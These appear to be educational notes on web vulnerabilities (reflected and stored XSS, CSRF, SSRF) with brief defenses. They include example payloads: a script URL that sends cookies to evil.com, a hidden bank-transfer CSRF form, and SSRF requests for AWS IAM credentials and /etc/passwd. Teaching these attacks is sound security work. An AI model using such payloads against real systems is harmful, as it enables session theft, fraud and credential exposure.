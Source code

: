 ## Exploiting Web Application Vulnerabilities

### Cross-Site Scripting XSS
when an attacker does HTML injection (inject their own HTML into a webpage)
### Reflected XSS
  * When an application allows *"reflected input"*
  * Anywhere, where a user can provide "input" that later would be viewed by another user there is a XSS oppertunity.
  * Example `https://news.com/search.php?q=<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>` assuming that the search page would (without validation) render the search query `q` in the html (`Search results for q`.)
### Stored/Persistent XSS
  * Here the XSS script is stored server/side
  * Example: I leave a product review with content `Good product! <script>alert('oi')</script>`
    * If this input is not sanatized or cleaned, it will store this string in the database.
    * When someone else views the product, and all comments are rendered underneath, the `<script>alert('oi')</script>` part will be seen as actual HTML and the script tag will execute.
    * Now you can replace `alert('oi')` with javascript that will log your keys, steal your cookies, etc... cause you are now runng a script under the domain of the trusted site.
  * ⚠️ Think of other ways where you can "inject HTML" on the request route or from a browser plugin.
  * Solutions
    * Input validation and escaping
    * [OWASP Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
### Request Forgery
* Exploit trust relationships and try users to unwittingly execute commands against a remote server, there are 2 types.
### Cross-Site Request Forgery CSRF/XSRF
  * Assume you are logged in to `mybank.com`.
  * You then visit a dangerous site or link `evil.com`
  * When you click on a button on `evil.com` it might trigger a request to `mybank.com`
  * If you are stil loggedin to `mybank.com`, the request could succeed because the browser would use any cookies linked to the `mybank.com` site.
  * Example HTMl on the `evil.com` site
  ```html
      <!-- Hidden on evilsite.com -->
      <form action="https://somebank.com/transfer" method="POST" id="malicious-form">
          <input type="hidden" name="to_account" value="999999">
          <input type="hidden" name="amount" value="5000">
          <!-- Note: no CSRF token! -->
      </form>

      <script>
          // Automatically submit when page loads
          // document.getElementById('malicious-form').submit();
      </script>
  ```
  * Defenses: secure tokens, check in reffering url to only accept urls that originate from own domain.
### Server-Side Request Forgery SSRF
  * Here we want the server/back-end to make an web call to a url.
  * Let's say you have a web application that takes an URL as input
  * That URL would be used to fetch remote information, and it would return that in some form.
  * Imagine for that URL, you specifcy a URL or IP address that would be not publicly available, but only to your back-end server
  * Example: `GET /preview?url=http://localhost:8080/admin/users`
  * Example: `GET /preview?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/` on AWS exposes IAM credentials
  * Example: `GET /preview?url=file:///etc/passwd`
